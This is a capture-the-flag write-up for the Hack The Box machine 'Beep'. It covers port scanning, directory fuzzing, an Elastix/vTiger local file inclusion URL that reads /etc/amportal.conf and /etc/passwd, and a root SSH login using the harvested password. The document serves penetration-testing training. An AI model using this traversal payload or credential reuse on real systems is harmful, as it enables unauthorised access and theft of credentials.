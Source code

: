# Beep

**Machine ip:** 10.10.10.7

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.7 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.7`
```
└─$ sudo nmap -n -Pn -sV -sC -p$ports 10.10.10.7
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-08 13:18 +03
WARNING: Duplicate port number(s) specified.  Are you alert enough to be using Nmap?  Have some coffee or Jolt(tm).
Nmap scan report for 10.10.10.7
Host is up (0.11s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING USER RESP-CODES EXPIRE(NEVER) AUTH-RESP-CODE IMPLEMENTATION(Cyrus POP3 server v2) APOP TOP LOGIN-DELAY(0) STLS UIDL
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            790/udp   status
|_  100024  1            793/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: CONDSTORE RENAME OK CHILDREN LISTEXT CATENATE IMAP4rev1 MAILBOX-REFERRALS LIST-SUBSCRIBED X-NETSCAPE NO STARTTLS Completed URLAUTHA0001 ANNOTATEMORE BINARY THREAD=ORDEREDSUBJECT NAMESPACE SORT RIGHTS=kxte IDLE THREAD=REFERENCES UIDPLUS QUOTA LITERAL+ IMAP4 MULTIAPPEND UNSELECT ATOMIC ID SORT=MODSEQ ACL
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2024-01-08T06:21:32+00:00; +5s from scanner time.
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Elastix - Login page
793/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 4s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 389.49 seconds

```

+ Navigate to `https://10.10.10.7/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8826721d-9e43-4f19-a2fb-28bae559dd17)

+ Directory fuzzing:
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.7/ -k
```

```
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.7/ -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.7/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 310] [--> https://10.10.10.7/images/]
/help                 (Status: 301) [Size: 308] [--> https://10.10.10.7/help/]
/themes               (Status: 301) [Size: 310] [--> https://10.10.10.7/themes/]
/modules              (Status: 301) [Size: 311] [--> https://10.10.10.7/modules/]
/mail                 (Status: 301) [Size: 308] [--> https://10.10.10.7/mail/]
/admin                (Status: 301) [Size: 309] [--> https://10.10.10.7/admin/]
/static               (Status: 301) [Size: 310] [--> https://10.10.10.7/static/]
/lang                 (Status: 301) [Size: 308] [--> https://10.10.10.7/lang/]
/var                  (Status: 301) [Size: 307] [--> https://10.10.10.7/var/]
/panel                (Status: 301) [Size: 309] [--> https://10.10.10.7/panel/]
/libs                 (Status: 301) [Size: 308] [--> https://10.10.10.7/libs/]
/recordings           (Status: 301) [Size: 314] [--> https://10.10.10.7/recordings/]
/configs              (Status: 301) [Size: 311] [--> https://10.10.10.7/configs/]
/vtigercrm            (Status: 301) [Size: 313] [--> https://10.10.10.7/vtigercrm/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/837bed63-aab3-4ba3-a404-325c94c17739)

+ `searchsploit elastix`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5a65eb4d-8714-475f-a9f6-9cae506cd456)

+ Navigate to `https://10.10.10.7/vtigercrm/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/03b85b59-667c-43ca-b134-fc772537c2f8)

+ `searchsploit vtiger crm 5.1.0`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a9470a5b-52e2-4d9b-a204-b7bc268f5ce8)




## Exploitation
### 1.Solution:
+ **Elastix 2.2.0 - 'graph.php' Local File Inclusion:** [LFI](https://www.exploit-db.com/exploits/37637)
+ Exploit: `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`
+ Navigate to:
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/87307089-e37c-4265-8c39-915ac2a57034)

+ Users and passwords identified:
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/352c0043-3abf-48ff-bc04-d930166aa76f)

+ And also try:
```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5723c61c-8d7e-429e-862f-e94b5cbede3f)

+ **vTiger CRM 5.1.0 - Local File Inclusion:** [CVE-2012-4867](https://www.exploit-db.com/exploits/18770)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a549bf30-1da5-4ba7-89ae-2534fbe28e5e)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/232fb7bb-6a9f-4c13-851e-329aed2c0c3f)

+ Now there are enumerated users and passwords.

+ Login ssh using `root`:`jEhdIekWmdjE`: `ssh root@10.10.10.7`
+ If meet an error, check [1](https://www.iclarified.com/85252/how-to-fix-no-matching-key-exchange-method-found-on-mac) [2](https://askubuntu.com/questions/836048/ssh-returns-no-matching-host-key-type-found-their-offer-ssh-dss)
+ Login `ssh -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-rsa root@10.10.10.7`
+ Get root!
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4cf306f2-3f06-4311-ba44-3fba99817893)

### 2.Solution:



# References & Alternatives:
+ https://vvmlist.github.io/#beep
+ https://0xdf.gitlab.io/2021/02/23/htb-beep.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/beep-writeup-w-o-metasploit
+ https://mertle.medium.com/write-up-htb-beep-9b4159ca3005
+ https://medium.com/@siddharth.singhal1995/hackthebox-walkthrough-beep-5-60e29ad0668a
+ https://www.siberportal.org/red-team/penetration-testing/hack-the-box-beep-cozumu/
